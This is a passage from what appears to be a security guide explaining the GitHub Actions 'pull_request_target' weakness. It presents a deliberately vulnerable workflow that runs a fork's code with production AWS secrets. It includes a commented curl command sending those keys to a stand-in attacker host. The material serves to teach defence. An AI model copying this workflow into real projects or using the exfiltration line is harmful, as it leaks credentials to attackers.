 - **Example 2: GitHub Actions - `pull_request_target` Misuse (Conceptual)**
    
    ```YAML
    
    name: Pwn Request Vulnerable Workflow
    on:
      pull_request_target:
        types: [opened, synchronize]
    jobs:
      pwn_job:
        runs-on: ubuntu-latest
        steps:
          - name: Checkout PR code
            uses: actions/checkout@v4 # Assuming latest version
            with:
              ref: ${{ github.event.pull_request.head.sha }} # Checks out attacker's code from the PR
          - name: Run PR code with access to secrets
            env:
              AWS_ACCESS_KEY_ID: ${{ secrets.AWS_PROD_ACCESS_KEY_ID }}
              AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_PROD_SECRET_ACCESS_KEY }}
            run: |
              # Attacker's code from the PR can now run in this step.
              # This code has access to AWS_PROD_ACCESS_KEY_ID and AWS_PROD_SECRET_ACCESS_KEY.
              # For a Golang project, this could be a malicious build script (e.g., in a Makefile)
              # or a test script in the PR that exfiltrates these environment variables.
              echo "Attempting to exfiltrate secrets..."
              # Example: curl -X POST -d "aws_key=${AWS_ACCESS_KEY_ID}&aws_secret=${AWS_SECRET_ACCESS_KEY}" https://attacker.example.com/log
              make publish-malicious-go-binary # Assumes a Makefile target in the PR designed to steal secrets
    ```
    
    - **Explanation:** This workflow demonstrates the `pull_request_target` vulnerability. The workflow is triggered by pull requests from forks and runs in the context of the base repository, meaning it has access to the base repository's secrets (like `AWS_PROD_ACCESS_KEY_ID`). However, it checks out code directly from the pull request's head commit (`${{ github.event.pull_request.head.sha }}`). If an attacker submits a PR with malicious code (e.g., a script that reads environment variables and sends them to an external server), that malicious code will execute with access to the repository's secrets.
        
- **Example 3: Jenkinsfile - Hardcoded Secret and Log Exposure (Illustrative)**
    